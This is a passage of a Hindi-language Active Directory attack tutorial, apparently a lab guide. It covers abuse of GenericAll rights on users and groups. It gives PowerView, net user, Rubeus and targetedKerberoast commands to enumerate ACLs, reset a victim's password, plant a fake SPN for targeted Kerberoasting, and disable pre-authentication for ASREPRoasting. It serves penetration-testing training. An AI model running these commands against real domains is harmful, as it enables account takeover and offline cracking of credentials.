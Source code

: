 इस लैब में, हम इनमें से अधिकांश ACEs का अन्वेषण करने और उन्हें शोधने का प्रयास करेंगे।

यह उपयोगी हो सकता है कि आप [BloodHound edges](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html) और Active Directory [Extended Rights](https://learn.microsoft.com/en-us/windows/win32/adschema/extended-rights) के सभी को अवगत कर लें क्योंकि आप कभी नहीं जानते कि आप एक अल्प प्रचलित अधिकार के दौरान एक मूल्यांकन के दौरान आपका सामना कब कर सकते हैं।

## उपयोगकर्ता पर GenericAll

powerview का उपयोग करके, आइए जांचें कि हमारे हमलावर उपयोगकर्ता `spotless` के पास `GenericAll rights` हैं या नहीं AD ऑब्जेक्ट के लिए उपयोगकर्ता `delegate` के लिए:
```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}
```
हम देख सकते हैं कि वास्तव में हमारे उपयोगकर्ता `spotless` के पास `GenericAll` अधिकार हैं, जो हमलावर को खाता हासिल करने की क्षमता प्रदान करता है:

![](../../../.gitbook/assets/2.png)

*   **पासवर्ड बदलें**: आप बस उस उपयोगकर्ता का पासवर्ड बदल सकते हैं इसके लिए निम्नलिखित कमांड का उपयोग करें

```bash
net user <username> <password> /domain
```
*   **लक्षित Kerberoasting**: आप उपयोगकर्ता को **kerberoastable** बना सकते हैं और खाते पर **SPN** सेट करके इसे kerberoast करने और ऑफलाइन क्रैक करने का प्रयास कर सकते हैं:

```powershell
# SPN सेट करें
Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
# हैश प्राप्त करें
.\Rubeus.exe kerberoast /user:<username> /nowrap
# SPN साफ़ करें
Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose

# आप यह भी उपयोग कर सकते हैं https://github.com/ShutdownRepo/targetedKerberoast
# एक या सभी उपयोगकर्ताओं के हैश प्राप्त करने के लिए
python3 targetedKerberoast.py -domain.local -u <username> -p password -v
```
*   **लक्षित ASREPRoasting**: आप उपयोगकर्ता को **ASREPRoastable** बना सकते हैं **पूर्व-प्रमाणीकरण** को **अक्षम** करके और फिर ASREProast कर सकते हैं।

```powershell
Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
```

## समूह पर GenericAll

चलो देखते हैं कि `Domain admins` समूह के पास कोई कमजोर अनुमतियाँ हैं या नहीं। सबसे पहले, इसका `distinguishedName` प्राप्त करें:
```csharp
Get-NetGroup "domain admins" -FullData
```